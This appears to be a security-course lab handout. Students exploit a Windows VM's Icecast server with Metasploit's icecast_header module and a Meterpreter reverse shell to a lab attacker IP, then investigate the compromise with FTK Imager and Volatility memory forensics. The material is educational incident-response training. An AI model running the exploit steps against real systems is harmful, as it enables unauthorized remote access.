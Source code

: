 ```yaml
---
title: "Incident response with Volatility memory analysis"
description:
include_toc: true
---
```


# Scenario

Consider the following scenario: one of your company's production servers has made an outbound connection to an IP address, which is abnormal behavior. Your task is to investigate what is going on.

# Part 1: Exploit Windows via Icecast Vulnerability

First, you'll play the role of the attacker. Compromise the Windows VM using the Icecast vulnerability in Metasploit.

## Start Icecast as admin

1.  Launch the Windows virtual machine. Log in to it as user `Labuser`,
    password `Passw0rd!`.

    If you are asked to provide a reason for an unexpected shutdown, you can
    ignore (cancel) this dialog. It is a Windows Server logging feature.

1.	On Windows desktop, right-click the "Icecast2 Win32" icon.
    <span class='badge badge-danger'>Important!</span> Select “Run as administrator.”
    If any warning message pops up, click “yes”.

    Running as Administrator will change the permissions that are obtained when
    the program is exploited.
    
2.	In the Icecast window that appears, click the button “Start server.”

    **Note**: The Icecast server is configured by default to a max of 5 connections.
    Each time you exploit the Icecast server, the connection count will tick up
    by one. If you use up all connections, simply kill and restart the Icecast server.

## Start msfconsole

In Kali, from a terminal, enter:

    msfconsole

## Finding and using an Icecast exploit

4.  From the `msf >` prompt, try:

        search icecast

5.  In the search output, you should see an exploit related to `icecast` called `exploit/windows/http/icecast_header`. Use it:

        use exploit/windows/http/icecast_header

    <div class='alert alert-info'><strong>Note:</strong> You can press the tab key within Metasploit to complete a module or command name you are typing. This makes entering commands in Metasploit faster. If you push the tab key twice it should show you all possible options for directory you are in.</div>

6.	Your msfconsole prompt should now look like this:

        msf exploit(icecast_header) >

    Indicating that the `icecast_header` module is loaded.

7.	Set the remote host to the Windows VM IP address:

        set rhost 192.168.56.100

10.	Meterpreter should already be selected as the payload. To verify, type:

        show options

13.	Set the "local host" variable to Kali's IP address on the infosec-net adapter.
    To set the local host variable, type

        set lhost 192.168.56.101

    A `lhost` was likely set for you by default -- but it may be an address for
    an incorrect interface! Make sure this setting is correct.

    <div class='alert alert-info'><strong>Note:</strong> Remember that you can
    easily check your IP in Unix/Linux by typing <code>ifconfig</code> or
    <code>ip</code> from within Metasploit.</div>

    {: #set-lhost-iface-name }
    **Note!** msfconsole allows you to specify an interface name as the `lhost`.
    The interface name for infosec-net is `virbr1`. You could set this as follows:

        set lhost virbr1

    Type `show options` to see that the variable has been set.

14.	With all options set, now it’s time to <span class='badge badge-danger'>
    <i class='fa fa-rocket'></i> launch the exploit!</span> Type:

        exploit

    (Or equivalently, `run`, but that's less fun.)

15. You should now be presented with the `meterpreter >` prompt.

16. Get the process ID by typing `getpid`.

# Part 2: Create a memory dump from the Windows VM

In this section, you'll use a digital forensics tool, FTK Imager, to make a copy or "image" of the Windows VM RAM.

1. On the Windows VM, create a new folder called "Evidence."

2. Right-click the folder and select "Properties." Select the "Sharing" tab, and click "Share." On the next pop-up Window, click "Share." Click "Done" and "Close."

2. From inside the Windows VM, open a web browser and [download the FTK Imager zip file](https://security-assignments.com/beta/assets/files/FTK_Imager.zip). 

3. In Windows, extract the zip file, and run `FTK Imager.exe` from the extracted directory.

4. In FTK Imager, from the "File" menu, select "Capture memory." For the destination path, select the "Evidence" folder you created. Click "Capture Memory."

5. In Kali, browse to the shared "Evidence" folder by opening the "Home" folder on the desktop. In the URL bar of the file explorer window, type: 

        smb://192.168.56.100/Evidence 
        
    or 
        
        smb://VAGRANTVM/Evidence

	Drag the "memdump.mem" file created by FTK Imager to the Desktop.

# Part 3: Use Volatility to examine the memory dump

## Install Volatility

1. Open a terminal and run the command:

        git clone https://github.com/volatilityfoundation/volatility3.git

2. Change to the `volatility3` directory.

3. Run the command:

        pip3 install -r requirements.txt

## Examine the memory dump with Volatility

1. From the `volatility3` directory, run the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.info

	This should display information about the memory dump file.

2. Next, in the scenario described at the top of this document, you have been alerted that this server has made an unusual outbound connection. Let's investigate. Run the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.netscan

	This outputs the status of network connections for the Windows VM at the time that the memory dump was created. This represents a snapshot of network activity at this point in time.

3. Look for a line that shows an `ESTABLISHED` connection. What is the remote IP address for this connection? What is the remote port address? What is the name of the executable associated with this connection? What is the process ID (PID) for this executable?

	Note that port `4444` is the default outbound port for Meterpreter.

4. Get a list of running processes with the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.pslist

	Can you locate the executable name and process ID?

5. Now we will use Volatility to scan the process ID for Icecast to look for hidden malicious code injected into the Icecast proces:

        python3 vol.py -f ~/Desktop/memdump.mem windows.malfind --pid [the process ID you identfied] --dump

	Volatility will output portions of memory associated with the Icecast PID that it believes is running malicious code.

	The `--dump` option will cause Volatility to write suspected malicious portions of memory to `.dmp` memory dump files.

6. Verify whether the `.dmp` files contain malware by opening virustotal.com in a browser in Kali and uploading each `.dmp` file for analysis. Select `Choose file` and then `Confirm upload`. 

	Virus Total will run the `.dmp` file through several dozen malware scanners. Do any of the scanners report that something is amiss? What do the `.dmp` files contain?
